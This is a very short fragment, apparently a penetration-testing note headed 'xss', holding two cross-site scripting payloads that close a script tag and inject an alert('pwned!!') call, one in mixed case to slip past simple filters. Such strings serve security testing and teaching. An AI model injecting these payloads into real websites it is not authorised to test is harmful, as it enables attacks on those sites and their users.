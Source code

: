 # xss
```command
'"></script><script>alert('pwned!!')</script>
'"></sCriPt><sCriPt>alert('pwned!!')</sCriPt>
```